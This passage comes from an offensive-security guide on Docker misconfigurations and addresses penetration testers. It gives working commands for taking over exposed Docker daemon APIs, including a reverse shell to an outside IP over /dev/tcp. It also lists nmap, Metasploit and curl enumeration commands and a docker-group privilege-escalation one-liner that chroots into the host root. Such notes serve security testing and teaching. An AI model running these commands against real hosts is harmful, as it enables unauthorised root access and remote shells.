 To weaponise this it may be possible to push the container to an image repository or abuse an insecure image registry in an effort to impact the software supply chain and target victim cd users.

## 1.5. Docker Daemon Misconfigurations
The daemon listens on unix:///var/run/docker.sock but you can bind Docker to another host/port or Unix socket. The daemon can also be configured for remote access, by default the remote API listens on port 2375 and 2376 for unencrypted and encrypted communication. Also by default, Dockerd does not require authentication allowing an attacker to start a container and get a shell.

The following command will start a shell mounting the root directory of the host to the container, from here it would be possible to write to /etc/shadow or add an SSH key:
```
docker -H <remoteapi>:2375 run — rm -v /:/mnt <image> chroot /mnt /bin/bash -c “bash -i >& /dev/tcp/192.168.1.130/4444 0>&1
```
    
It would also be possible to start a privileged container - see [Abusing Linux Capabilities](#abusing-linux-capabilities)

### 1.5.1. Enumerate Remote Docker Daemon API
- Using Nmap
```
nmap -p 2375,2376 <IP> 

nmap -p- -sV --script docker-* <IP>
```

- Using Metasploit
```
msf> use exploit/linux/http/docker_deamon_tcp
```

- Using Curl
```
#check version
curl -s http://open.docker.socket:2375/version | jq

#list containers
curl -insecure https://tlsopen.docker.socket:2376/containers/json | jq
```

- Using Docker binary
```
docker -H open.docker.socket:2375/version
```

Further information regarding abusing docker sockets can be found here:
https://securityboulevard.com/2019/02/abusing-docker-api-socket/

### 1.5.2. Docker Host Privilege Escalation
By default the Docker daemon runs with root privlieges to perform operations, for security, users will generally add themselves to the docker group instead of running as root. However it is possible to leverage docker volumes and suid binaries to escalate a user with docker group access to root.

One-Liner - mounts root directory and chroot:
```
docker run -it --rm -v /:/host alpine chroot /host
```
